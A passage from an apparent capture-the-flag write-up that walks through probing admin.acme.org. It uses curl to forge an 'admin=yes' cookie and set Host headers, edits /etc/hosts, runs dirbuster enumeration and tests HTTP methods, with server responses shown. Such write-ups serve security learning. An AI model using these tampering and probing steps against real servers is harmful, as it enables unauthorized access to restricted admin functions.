 Finally, our suspicion was true. There actually might be an admin panel there, as there is an `admin` cookie returned with a value of `no`. So what's the most logical thing to try now? 

Send the request again with the value of the `admin` cookie set to `yes`

```sh
jazzy@lolbox ~ $ curl -H 'Host: admin.acme.org' -b 'admin=yes' 'http://104.236.20.43/' 
jazzy@lolbox ~ $
```

Well, there's still no response, let's look at the headers now

```sh
HTTP/1.1 405 Method Not Allowed
Date: Thu, 16 Nov 2017 12:09:15 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Type: text/html; charset=UTF-8
```

Hmmm, that's interesting. `405 Method Not Allowed`. So apparently `GET` method is not allowed if the `admin` cookie is `yes`. At this point, I decided to just add an entry in my `/etc/hosts` file for `admin.acme.org` to resolve to that IP, so I wouldn't need to send the host header with each request. This was just to make my life easier.

This is what I added in my `/etc/hosts`

```jazzy@lolbox ~ $ cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	lolbox
104.236.20.43	admin.acme.org
```

So now all requests to `admin.acme.org` would go to that IP with the host header as `admin.acme.org`

Now as a occasional bug hunter, I fired up dirbuster with the smallest wordlist, and found the following folders and files

```
/read.php
/reset.php
/Applications/
/Desktop/
```

We will come back to the files and directories later.

Since the `GET` method is not allowed on the index, let's try some other http methods

```sh
jazzy@lolbox ~ $ curl -X POST -I -b 'admin=yes' 'admin.acme.org'
HTTP/1.1 406 Not Acceptable
Date: Thu, 16 Nov 2017 12:16:09 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8

jazzy@lolbox ~ $ curl -X OPTIONS -I -b 'admin=yes' 'admin.acme.org'
HTTP/1.1 405 Method Not Allowed
Date: Thu, 16 Nov 2017 12:16:17 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8

jazzy@lolbox ~ $ curl -X TRACE -I -b 'admin=yes' 'admin.acme.org'
HTTP/1.1 405 Method Not Allowed
Date: Thu, 16 Nov 2017 12:16:24 GMT
Server: Apache/2.4.18 (Ubuntu)
Allow: 
Content-Length: 303
Content-Type: text/html; charset=iso-8859-1
```